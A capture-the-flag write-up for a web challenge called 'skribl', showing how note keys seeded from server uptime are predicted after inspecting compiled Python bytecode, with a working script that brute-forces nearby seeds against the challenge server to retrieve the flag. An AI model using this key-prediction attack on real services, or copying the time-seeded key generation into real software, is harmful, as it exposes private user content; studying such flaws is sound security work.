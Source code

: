 For this challenge, we're provided the source code of a web application. The interesting code lies in the skribl.py file where we can find this : 

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    form = SkriblForm()
    message = ""
    if form.validate_on_submit():
        message = form.skribl.data
        author = form.author.data

        key = create_skribl(skribls, message, author)
        return redirect(url_for('view', key=key))
    
    return render_template('index.html', form=form, error_msg=request.args.get("error_msg", ''))

@app.route('/view/<key>', methods=['GET'])
def view(key):
    print(f"Viewing with key {key}")
    if key in skribls:
        message, author = skribls[key]
        return render_template("view.html", message=message, author=author, key=key)
    else:
        return redirect(url_for('index', error_msg=f"Skribl not found: {key}"))
```
We can see here that the key is generated using a function called create_skribl. Unfortunately, this function is not provided. However, the pycache is still present ! I tried uncompyle6 to get the source code but it didn't work as this was compiled using python 3.13. From this, I tried to guess the original source code by looking at the backend.pyc in an hexadecimal editor. 

![Code1](./Images/Code1.png)

From that, we can get that the alphabet used to form the key use string.ascii_lowercase + string.ascii_uppercase + string.digits. To get the seed, one can look a bit downwards  : 

![Code2](./Images/Code2.png)

Here, we can see that the seed is generated using the timer and the actual time. We can guess that the correct code is : math.floor((datetime.now().timestamp() - timer))

Luckily for us, the server provides us the time from which it is running at the end of the source code : 

```js
stime = moment.duration(36220, 'seconds');
        stime_text = document.getElementById("stime");

        stime_text.outerHTML = stime.humanize()
```

Using all that, we can build a script to get the flag : 

```python
import requests
import regex as re
import random
import string
import math
from datetime import datetime

url = "https://skribl.chall.pwnoh.io/"
r = requests.get(url)
pattern = re.compile(r"moment.duration\((\d+), 'seconds'\);")
result = pattern.search(r.text).group(1)
print("Page is up from : %s, now building the key" % result)

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits

for i in range(-5,5):
    Time = math.floor((datetime.now().timestamp() - int(result)))
    random.seed(Time+i)

    key =  "".join([random.choice(alphabet) for i in range(40)])
    r = requests.get("https://skribl.chall.pwnoh.io/view/"+str(key))
    if "bctf" in r.text:
        print("Flag found : %s" % r.text)
        break
```

